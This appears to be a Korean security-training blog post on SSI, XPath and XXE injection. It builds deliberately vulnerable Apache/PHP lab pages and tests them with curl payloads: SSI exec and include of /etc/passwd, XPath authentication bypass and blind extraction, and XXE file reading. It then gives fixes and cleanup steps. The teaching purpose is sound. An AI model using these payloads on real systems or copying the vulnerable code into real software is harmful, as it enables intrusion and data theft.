

## 들어가며 — 인젝션은 OS 명령만이 아니다

[08. Command Injection](/posts/websec-08-command-injection/)은 사용자 입력이 **OS 셸 명령**에 섞여 들어가는 경우였습니다. 그러나 KISA *주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드* 의 **「코드 인젝션(Code Injection, CI)」** 항목은 OS 명령을 포함해 훨씬 넓습니다.

> **점검 내용(KISA)**: 웹 애플리케이션 내 다양한 인젝션 공격(LDAP, 운영체제 명령 실행, SSI, XPath, XML, SSTI 등)에 대해 **외부 입력값이 쿼리나 명령어로 삽입되어 비인가 접근이나 코드 실행이 가능한지** 점검.
{: .prompt-info }

코드 인젝션 심화는 **세 편**으로 나눠 다룹니다. 환경 구성 난이도에 따라 묶었습니다.

| 편 | 다루는 인젝션 | 실습 환경 |
|---|---|---|
| **① 이 글** | **SSI · XPath · XXE** | Apache 모듈 / PHP 파일 (가벼움) |
| [② LDAP 인젝션](/posts/websec-16-ldap-injection/) | LDAP | LDAP 서버(slapd) 설치 필요 |
| [③ SSTI](/posts/websec-17-ssti/) | 서버 사이드 템플릿 인젝션 | Flask(Jinja2) 미니앱 필요 |

> **공통 원리**: 모든 인젝션의 뿌리는 같습니다 — **데이터로 와야 할 입력이 "코드/쿼리"로 해석**되는 것. SQLi가 SQL 파서를, XSS가 브라우저를, 명령삽입이 셸을 속이듯, 여기서는 **SSI 지시어·XPath 식·XML 파서**를 속입니다.  
> **공통 방어**: 화이트리스트 입력 검증 + 해당 파서에 맞는 이스케이프 + 위험 기능 비활성화.
{: .prompt-tip }

DVWA에는 이 항목들의 모듈이 없으므로, [04 SSRF](/posts/websec-04-ssrf/)·[07 IDOR](/posts/websec-07-idor/) 실습처럼 Ubuntu 서버(`192.168.0.30`)에 **작은 취약 페이지를 직접 만들어** 점검합니다.

---

## 실습 환경

| 구분 | 내용 |
|---|---|
| 공격자 | Kali Linux (192.168.0.10) — 브라우저, curl, Burp Suite |
| 대상 | Ubuntu + Apache/PHP (192.168.0.30) |
| 접근 | Ubuntu 서버에 SSH 또는 직접 터미널 (파일 생성·Apache 설정용) |

> 아래 실습 파일은 모두 **의도적으로 취약하게** 만든 것입니다. 실습이 끝나면 각 절 마지막의 **정리(cleanup)** 명령으로 반드시 삭제하세요.
{: .prompt-warning }

---

## OWASP Top 10 매핑

| 항목 | 내용 |
|---|---|
| OWASP 카테고리 | **A05:2025 – Injection** (구 A03:2021) |
| CWE | CWE-97(SSI) · CWE-643(XPath) · CWE-611(XXE) |
| 영향 | 서버 명령 실행, XML 데이터 무단 조회·인증 우회, 서버 파일 노출 |
| 한 줄 핵심 | 입력이 **각 파서의 특수 구문**으로 해석되어 명령/쿼리가 덧붙음 |

---

## 1. SSI 인젝션 (Server Side Includes)

### 1.1 원리

SSI는 Apache가 `.shtml` 같은 파일에서 `<!--#... -->` 지시어를 만나면 **서버에서 실행**해 결과를 페이지에 끼워 넣는 1990년대 CGI 시대 기술입니다. 사용자 입력이 SSI가 켜진 페이지에 그대로 반영되면, 입력에 든 `<!--#exec -->` 가 **서버 명령으로 실행**됩니다.

| 지시어 | 동작 |
|---|---|
| `<!--#echo var="..." -->` | 서버 변수 출력 (`DOCUMENT_ROOT` 등) |
| `<!--#exec cmd="..." -->` | **OS 명령 실행** |
| `<!--#include virtual="..." -->` | 다른 파일 포함(노출) |

### 1.2 실험 환경 구성 (Ubuntu)

**1단계 — SSI 모듈 활성화**

```bash
sudo a2enmod include
```

**2단계 — 테스트 디렉터리에 SSI + 명령 실행 허용 (의도적 취약)**

```bash
sudo mkdir -p /var/www/html/ssi
sudo tee /etc/apache2/conf-available/ssi-lab.conf >/dev/null <<'EOF'
<Directory "/var/www/html/ssi">
    Options +Includes +ExecCGI
    AddType text/html .shtml
    AddOutputFilter INCLUDES .shtml
</Directory>
EOF
sudo a2enconf ssi-lab
sudo systemctl restart apache2
```

**3단계 — 입력을 그대로 출력하는 취약 페이지 작성**

```bash
sudo tee /var/www/html/ssi/greet.shtml >/dev/null <<'EOF'
<!--#set var="name" value="$QUERY_STRING" -->
<html><body>
<p>안녕하세요, <!--#echo var="name" -->님</p>
</body></html>
EOF
```

> 이 예시는 쿼리스트링을 SSI 변수로 출력합니다. 실제 취약 사례는 **게시판·방명록 입력이 `.shtml`로 저장**되어 `#exec`가 실행되는 형태입니다.
{: .prompt-info }

### 1.3 점검 실습 (KISA Step 1~3)

**1단계 — 정상 동작 확인 (Kali에서)**

```bash
curl -G "http://192.168.0.30/ssi/greet.shtml" --data-urlencode "철수"
```

출력에 `안녕하세요, 철수님` 이 나오면 입력이 페이지에 반영되는 것입니다.

**2단계 — 서버 변수 노출 (KISA Step 1)**

```bash
curl -G "http://192.168.0.30/ssi/greet.shtml" --data-urlencode '<!--#echo var="DOCUMENT_ROOT" -->'
```

예상 출력:

```
안녕하세요, /var/www/html님
```

홈 디렉터리 경로가 보이면 SSI가 실행되고 있다는 신호입니다.

**3단계 — OS 명령 실행 (KISA Step 2)**

```bash
curl -G "http://192.168.0.30/ssi/greet.shtml" --data-urlencode '<!--#exec cmd="id" -->'
curl -G "http://192.168.0.30/ssi/greet.shtml" --data-urlencode '<!--#exec cmd="ls -al" -->'
curl -G "http://192.168.0.30/ssi/greet.shtml" --data-urlencode '<!--#include virtual="/etc/passwd" -->'
```

예상 출력(첫 명령):

```
안녕하세요, uid=33(www-data) gid=33(www-data) groups=33(www-data)님
```

`uid=33(www-data)` 처럼 **명령 결과가 응답에 나타나면 취약**입니다.

**4단계 — 요청 헤더로 SSI 삽입 (KISA Step 3, 헤더가 페이지에 반영되는 경우)**

```bash
curl "http://192.168.0.30/ssi/greet.shtml" \
  -H 'User-Agent: <!--#exec cmd="uname -a" -->'
```

| 판단 | 기준 |
|---|---|
| 양호 | SSI 특수문자가 필터링/이스케이프되어 명령이 실행되지 않음 |
| 취약 | 입력값의 `<!--#...-->` 가 서버에서 실행됨 |

### 1.4 조치

1. 모든 입력(GET·POST·쿠키·헤더)을 화이트리스트로 검증하고 SSI 특수문자를 HTML 엔티티로 변환

| 문자 | 변환 | 문자 | 변환 |
|---|---|---|---|
| `<` | `&lt;` | `>` | `&gt;` |
| `"` | `&quot;` | `#` | `&#35;` |
| `(` | `&#40;` | `)` | `&#41;` |

2. SSI를 쓰지 않으면 **비활성화**: 사용자 콘텐츠 디렉터리에 `Options +Includes`를 절대 부여하지 않음

```bash
# 사용자 입력이 저장되는 디렉터리는 SSI 끄기
# <Directory> 의 Options 에서 Includes 제거 (또는 Options -Includes)
```

3. 웹 방화벽에 `<!--#` 패턴 룰셋 적용

### 1.5 정리 (cleanup)

```bash
sudo a2disconf ssi-lab && sudo rm /etc/apache2/conf-available/ssi-lab.conf
sudo rm -rf /var/www/html/ssi
sudo systemctl restart apache2
```

---

## 2. XPath 인젝션

### 2.1 원리

XML을 사용자 저장소로 쓰는 앱은 로그인 시 `//user[uid='입력'][pw='입력']` 같은 **XPath 식**을 만듭니다. 따옴표를 닫고 `or '1'='1`을 붙이면 [01 SQLi](/posts/websec-01-sql-injection/)와 똑같은 논리로 인증을 우회합니다. XML에는 권한 개념이 없어 한 번 우회되면 전체 노드를 읽을 수 있습니다.

### 2.2 실험 환경 구성

**1단계 — 사용자 데이터(XML) 작성**

```bash
sudo tee /var/www/html/users.xml >/dev/null <<'EOF'
<?xml version="1.0"?>
<users>
  <user><uid>alice</uid><pw>alicepw</pw><role>user</role></user>
  <user><uid>admin</uid><pw>s3cr3t!</pw><role>admin</role></user>
</users>
EOF
```

**2단계 — 취약 로그인 페이지 작성**

```bash
sudo tee /var/www/html/xpath_login.php >/dev/null <<'EOF'
<?php
$user = $_POST['user'] ?? '';
$pass = $_POST['pass'] ?? '';
$xml  = simplexml_load_file('/var/www/html/users.xml');
// [의도적 취약] 입력을 XPath 식에 그대로 삽입
$q = "//user[uid='$user' and pw='$pass']";
$r = $xml->xpath($q);
echo $r ? "로그인 성공: ".$r[0]->role : "로그인 실패";
?>
EOF
```

### 2.3 점검 실습 (KISA Step 1~2)

**1단계 — 정상 로그인 확인**

```bash
curl -s -X POST http://192.168.0.30/xpath_login.php -d "user=alice&pass=alicepw"
# → 로그인 성공: user
```

**2단계 — 취약 판단: 항상 참 vs 항상 거짓 (KISA Step 1)**

```bash
# 항상 참
curl -s -X POST http://192.168.0.30/xpath_login.php --data-urlencode "user=' or 'a'='a" --data-urlencode "pass=' or 'a'='a"
# 항상 거짓
curl -s -X POST http://192.168.0.30/xpath_login.php --data-urlencode "user=' or 'a'='b" --data-urlencode "pass=x"
```

"항상 참" 입력에서 **비밀번호 없이 로그인 성공**, "항상 거짓"에서 실패가 나오면 취약입니다.

**3단계 — Blind 추출: 데이터 한 글자씩 알아내기 (KISA Step 2)**

```bash
# 첫 사용자 uid 의 길이가 5인지 (참이면 성공)
curl -s -X POST http://192.168.0.30/xpath_login.php \
  --data-urlencode "user=' or string-length((//user[1]/uid))=5 and '1'='1" --data-urlencode "pass=x"
# 첫 글자가 'a' 인지
curl -s -X POST http://192.168.0.30/xpath_login.php \
  --data-urlencode "user=' or substring((//user[1]/uid),1,1)='a' and '1'='1" --data-urlencode "pass=x"
```

성공/실패 응답 차이로 길이→글자 순으로 데이터를 복원할 수 있습니다.

| 판단 | 기준 |
|---|---|
| 양호 | 입력 검증·이스케이프로 식이 변조되지 않음 |
| 취약 | "항상 참" 입력으로 인증 우회·데이터 추출 가능 |

### 2.4 조치

1. 입력 검증으로 XPath 특수문자 `( ) = ' [ ] : , * /` 제한(화이트리스트)
2. 값을 식 문자열에 직접 붙이지 말고 **이스케이프/파라미터화**

```php
// 작은따옴표 이스케이프 (또는 변수 바인딩 지원 라이브러리 사용)
$user = str_replace("'", "&apos;", $user);
$pass = str_replace("'", "&apos;", $pass);
```

3. 웹 방화벽에 XPath/XQuery 특수문자 룰셋 적용

### 2.5 정리 (cleanup)

```bash
sudo rm /var/www/html/xpath_login.php /var/www/html/users.xml
```

---

## 3. XXE 인젝션 (XML External Entities)

### 3.1 원리

XML 파서가 **외부 엔티티(`<!ENTITY xxe SYSTEM "file:///...">`)** 를 처리하도록 설정되면, 공격자가 전송한 XML이 **서버의 임의 파일을 읽어** 응답에 노출합니다. 무한 확장으로 메모리를 고갈시키는 **"Billion Laughs"** DoS 변종도 같은 기능을 악용합니다.

> PHP 8.0+는 기본적으로 외부 엔티티를 비활성화합니다. 그러나 **`LIBXML_NOENT` 플래그를 쓰는 레거시 코드**는 여전히 취약합니다. 아래 실습은 그 레거시 패턴을 재현합니다.
{: .prompt-warning }

### 3.2 실험 환경 구성

```bash
sudo tee /var/www/html/xxe_parse.php >/dev/null <<'EOF'
<?php
// [의도적 취약] LIBXML_NOENT 로 외부 엔티티 확장 허용
$body = file_get_contents('php://input');
$dom  = new DOMDocument();
$dom->loadXML($body, LIBXML_NOENT | LIBXML_DTDLOAD);
echo "받은 값: " . $dom->textContent;
?>
EOF
```

### 3.3 점검 실습 (KISA Step 1)

**1단계 — 정상 XML 전송 확인**

```bash
curl -s http://192.168.0.30/xxe_parse.php \
  -H "Content-Type: application/xml" \
  --data-binary '<?xml version="1.0"?><foo>hello</foo>'
# → 받은 값: hello
```

**2단계 — 외부 엔티티로 서버 파일 읽기**

```bash
curl -s http://192.168.0.30/xxe_parse.php -H "Content-Type: application/xml" --data-binary @- <<'EOF'
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<foo>&xxe;</foo>
EOF
```

예상 출력:

```
받은 값: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

`/etc/passwd` 내용이 응답에 나오면 취약입니다. (Windows 표적이면 `file:///C:/Windows/System32/drivers/etc/hosts`.)

| 판단 | 기준 |
|---|---|
| 양호 | 외부 엔티티가 처리되지 않아 파일 내용이 확장되지 않음 |
| 취약 | `&xxe;` 가 서버 파일 내용으로 치환되어 노출 |

### 3.4 조치 — 외부 엔티티 비활성화

| 언어 | 설정 |
|---|---|
| **PHP 8.0 이전** | `libxml_disable_entity_loader(true);` |
| **PHP 8.0 이후** | `LIBXML_NOENT` 사용 금지 → `$dom->loadXML($x, LIBXML_NONET);` |
| **Java** | `dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);` |
| **ASP.NET** | `doc.XmlResolver = null;` |

```php
// 안전한 PHP 파싱(외부 엔티티 차단)
$dom = new DOMDocument();
$dom->loadXML($body, LIBXML_NONET);   // NOENT 미사용 = 외부 엔티티 확장 안 함
```

### 3.5 정리 (cleanup)

```bash
sudo rm /var/www/html/xxe_parse.php
```

---

## 4. 정리



| 인젝션 | 대표 진단 페이로드 | 핵심 조치 |
|---|---|---|
| SSI | `<!--#exec cmd="id" -->` | SSI 비활성화 + 엔티티 변환 |
| XPath | `' or 'a'='a` | 특수문자 제한 + 이스케이프 |
| XXE | `<!ENTITY xxe SYSTEM "file:///etc/passwd">` | 외부 엔티티 비활성화 |

> 같은 코드 인젝션(CI) 가족인 **LDAP**은 [16번](/posts/websec-16-ldap-injection/), **SSTI**는 [17번](/posts/websec-17-ssti/), **OS 명령**은 [08번](/posts/websec-08-command-injection/)에서 다룹니다.
{: .prompt-tip }

---

## 5. 정보보안기사 시험 포인트

| 인젝션 | 꼭 외울 것 |
|---|---|
| **SSI** | `#exec`(명령)·`#include`(파일)·`#echo`(변수), `.shtml`/`Options +Includes` |
| **XPath** | SQLi와 동일 논리 `' or '1'='1`, XML 저장소 인증 우회(권한 개념 없음) |
| **XXE** | **외부 엔티티 비활성화**가 정답, `file://`로 파일 노출·`Billion Laughs` DoS |

> **★ 함정**: "XXE 방어 = 입력 인코딩"은 **부분 정답**입니다. 근본 방어는 **DTD/외부 엔티티 처리 비활성화**입니다.
{: .prompt-tip }

---

## 출처 및 참고 자료

- KISA, 「주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드」 — Web Application(웹) > 코드 인젝션
- OWASP — Server-Side Includes / XPath Injection / XXE Cheat Sheets — <https://cheatsheetseries.owasp.org/>

> **⚠ 합법성**: 모든 실습은 본인 소유의 격리된 랩(`192.168.0.30`)에서만 수행하고, 실습 후 생성한 파일·설정을 반드시 제거합니다. 타인 시스템 대상 점검은 정보통신망법 위반입니다.
{: .prompt-danger }
